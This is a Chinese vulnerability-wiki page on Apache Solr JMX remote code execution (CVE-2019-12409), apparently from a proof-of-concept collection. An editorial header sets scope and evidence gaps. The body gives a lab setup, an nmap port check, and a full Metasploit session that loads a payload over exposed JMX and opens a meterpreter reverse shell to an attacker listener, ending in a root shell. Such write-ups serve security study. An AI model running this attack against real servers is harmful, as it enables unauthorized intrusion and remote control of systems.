


# Apache Solr JMX服务 RCE CVE-2019-12409

<!-- vulwiki-editorial:start -->
## 校订与适用边界

此问题限于特定 Linux 启动脚本的 JMX 配置。可达性、鉴权和运行时条件必须同时评估；终端记录中的 root 是实验进程账户，不是漏洞固有提权能力。

- 适用前提：官方范围：Linux 的 Solr 8.1.1/8.2.0 solr.in.sh 默认配置；Windows 不受影响。远程 JMX 端口可达；实际加载链仍受鉴权、运行时及回连条件限制
- 证据范围：记录MSF交互与来源方会话结果，但Docker步骤仅发布HTTP端口，缺JMX端口设置。

### 已有来源支持的更正

- 官方12409限Linux的8.1.1/8.2.0 solr.in.sh默认配置，Windows不受影响；建议有效配置ENABLE_REMOTE_JMX_OPTS=false并重启，无需升级代码。原审阅中补官方修复版本建议应改补官方配置缓解与平台范围。

### 本次正文校订

- 修正 true 拼写，并去掉只凭单个配置值确认漏洞的错误判据。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Docker未映射18983，所列复現网络条件不完整
- JMX暴露不自动允许加载任意Bean，需鉴权/MLet/运行时前提
- root是实验进程账户，不是该漏洞固有提权能力

### 核验来源

- https://solr.apache.org/security-news2.html

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Java ManagementExtensions（JMX）是一种Java技术，为管理和监视应用程序、系统对象、设备（如打印机）和面向服务的网络提供相应的工具。JMX 作为 Java的一种Bean管理机制，如果JMX服务端口暴露，那么远程攻击者可以让该服务器远程加载恶意的Bean文件，随着Bean的滥用导致远程代码执行。

## 漏洞影响

```
Apache Solr 8.1.1
Apache Solr 8.2.0
```

## 环境搭建

[下载 Apache Solr 8.2.0](http://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.zip)

也可以docker搭建

```plain
docker pull solr:8.2.0
docker run --name solr -d -p 8983:8983 -t solr:8.2.0
```

访问 http://xxx.xxx.xxx.xxx:8983/solr/ 正常即可

## 漏洞复现

查看搭建的Solr是否存在漏洞,查看solr.in.sh配置文件中的ENABLE_REMOTE_JMX_OPTS选项设置是否为 true；该配置为风险线索，还需核对 JMX 监听地址、鉴权和网络可达性，不能仅凭此值确认漏洞

查看漏洞端口18983是否开放

```python
nmap xxx.xxx.xxx.xxx -p 18983
```



```shell
root@kali:~/桌面# msfconsole
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your module, why not try the reload command

msf5 > use exploit/multi/misc/java_jmx_server
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > set rhost 192.168.51.146
rhost => 192.168.51.146
msf5 exploit(multi/misc/java_jmx_server) > set rport 18983
rport => 18983
msf5 exploit(multi/misc/java_jmx_server) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf5 exploit(multi/misc/java_jmx_server) > options

Module options (exploit/multi/misc/java_jmx_server):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   JMXRMI        jmxrmi           yes       The name where the JMX RMI interface is bound
   JMX_PASSWORD                   no        The password to interact with an authenticated JMX endpoint
   JMX_ROLE                       no        The role to interact with an authenticated JMX endpoint
   RHOSTS        192.168.51.146   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         18983            yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.51.149   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Generic (Java Payload)


msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 192.168.51.149:4444 
[*] 192.168.51.146:18983 - Using URL: http://0.0.0.0:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Local IP: http://192.168.51.149:8080/xln8izoCtDUbBVm
[*] 192.168.51.146:18983 - Sending RMI Header...
[*] 192.168.51.146:18983 - Discovering the JMXRMI endpoint...
[+] 192.168.51.146:18983 - JMXRMI endpoint on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Proceeding with handshake...
[+] 192.168.51.146:18983 - Handshake with JMX MBean server on 127.0.1.1:18983
[*] 192.168.51.146:18983 - Loading payload...
[*] 192.168.51.146:18983 - Replied to request for mlet
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] 192.168.51.146:18983 - Executing payload...
[*] 192.168.51.146:18983 - Replied to request for payload JAR
[*] Sending stage (53944 bytes) to 192.168.51.146
[*] Meterpreter session 1 opened (192.168.51.149:4444 -> 192.168.51.146:56234) at 2020-11-05 14:17:04 +0800

                                                                            
meterpreter >                                                                 
meterpreter > shell                                                            
Process 1 created.                                                              
Channel 1 created.                                                                
id                                                                                 
用户id=0(root) 组id=0(root) 组=0(root)
```




---

> 来源：Threekiii/Awesome-POC
